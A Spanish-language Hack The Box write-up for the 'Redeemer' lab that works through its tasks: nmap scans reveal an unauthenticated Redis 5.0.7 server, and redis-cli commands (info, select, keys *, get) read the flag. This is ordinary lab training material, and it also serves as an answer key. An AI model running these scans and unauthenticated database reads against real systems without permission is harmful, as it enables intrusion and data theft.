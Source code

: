 ```yaml
---
title: Redeemer
date: 2025-04-5 00:00:00 +0200
categories: [writeup, hackthebox]
tags: [hackthebox, redeeme, redis]     
image:
    path: https://www.hackthebox.com/images/logo-htb.svg
    alt: Hack The Box
---
```


## Redeemer
Siguiendo la línea de hacer unas tareas y contestar a las preguntas que se van planteando. 

 Task 1

Which TCP port is open on the machine?
```
┌──(kali㉿kali25)-[~]
└─$ nmap -sV -p 0-65000 --open    10.129.155.79 -vv
PORT     STATE SERVICE REASON         VERSION
6379/tcp open  redis   syn-ack ttl 63 Redis key-value store 5.0.7
Read data files from: /usr/share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 92.94 seconds
           Raw packets sent: 89997 (3.960MB) | Rcvd: 71479 (2.859MB)
``` 
>6379

Task 2

Which service is running on the port that is open on the machine?

>redis

Task 3
What type of database is Redis? Choose from the following options: (i) In-memory Database, (ii) Traditional Database

>In-memory Database
Task 4

Which command-line utility is used to interact with the Redis server? Enter the program name you would enter into the terminal without any arguments.

>redis-cli

Task 5

Which flag is used with the Redis command-line utility to specify the hostname?
>-h

Task 6

Once connected to a Redis server, which command is used to obtain the information and statistics about the Redis server?
>info

Task 7


What is the version of the Redis server being used on the target machine?
``` shell
┌──(kali㉿kali25)-[~]
└─$ nmap -sV -p 6379 -sV  10.129.155.79 -vv 
PORT     STATE SERVICE REASON         VERSION
6379/tcp open  redis   syn-ack ttl 63 Redis key-value store 5.0.7
┌──(kali㉿kali25)-[~]
└─$ nmap  --script redis-info -p 6379  10.129.155.79 -vv
PORT     STATE SERVICE REASON
6379/tcp open  redis   syn-ack ttl 63
| redis-info: 
|   Version: 5.0.7
|   Operating System: Linux 5.4.0-77-generic x86_64
|   Architecture: 64 bits
|   Process ID: 754
|   Used CPU (sys): 2.062208
|   Used CPU (user): 1.839607
|   Connected clients: 1
|   Connected slaves: 0
|   Used memory: 839.48K
|   Role: master
|   Bind addresses: 
|     0.0.0.0
|     ::1
|   Client connections: 
|_    10.10.15.134
┌──(kali㉿kali25)-[~]
└─$ redis-cli -h 10.129.155.79
10.129.155.79:6379> info
# Server
redis_version:5.0.7
redis_git_sha1:00000000
redis_git_dirty:0
redis_build_id:66bd629f924ac924

```
> 5.0.7

Task 8

Which command is used to select the desired database in Redis?
>select

Task 9
How many keys are present inside the database with index 0?
>4

Task 10

Which command is used to obtain all the keys in a database?
>keys *

Submit Flag
>get flag.txt

Submit root flag 
